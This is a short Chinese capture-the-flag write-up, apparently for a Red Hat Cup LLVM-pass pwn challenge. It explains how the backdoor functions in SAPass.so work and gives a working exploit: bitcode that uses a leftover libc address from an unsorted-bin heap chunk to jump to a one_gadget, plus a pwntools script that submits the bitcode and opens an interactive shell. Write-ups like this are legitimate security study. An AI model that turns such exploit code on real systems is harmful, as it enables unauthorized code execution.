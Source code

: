 看着赤道企鹅师傅红帽杯的wp做的，程序漏洞在SAPass.so的`sub_19d0`函数里

一边逆向一边调试，大致可以得到

1. 主函数名要叫`B4ckDo0r`
2. `save`函数需要2个参数，可以`malloc(0x18)`并放在`qword_2040F8`中
3. `stealkey`需要0个参数，可以将`qword_2040F8`中的数据存到`unk_204100`中
4. `fakekey`需要1个参数，可以让`unk_204100`中的数据加上函数参数，结果保存到`qword_2040F8`中
5. `run`需要0个参数，可以跳转到`qword_2040F8`中函数指针所指的地址

思路是将0x18大小的fastbin/tcache全部申请后最后一次申请unsorted_bin，让其残留的libc地址减掉偏移指向one_gadget，`run`跳转one_gadget

exp.c：

```c
//./clang+llvm-12.0.0-x86_64-linux-gnu-ubuntu-16.04/bin/clang  -emit-llvm -c exp.c -o exp.bc

void save(int a, int b);
void stealkey();
void fakekey(int a);
void run();

void B4ckDo0r()
{
	save(0,0);
	save(0,0);
	save(0,0);
	save(0,0);
	save(0,0);
	save(0,0);
	save(0,0);
	stealkey();
	fakekey(0xffc63792);
	run();
}
```

quickstart.py：

```python
from pwn import *
import sys
context.log_level='debug'

con = remote(sys.argv[1], sys.argv[2])
f = open("./exp.bc","rb")

payload=f.read()

f.close()

payload2 = payload.encode("base64")
con.sendlineafter("bitcode: \n", payload2)

con.interactive()
```



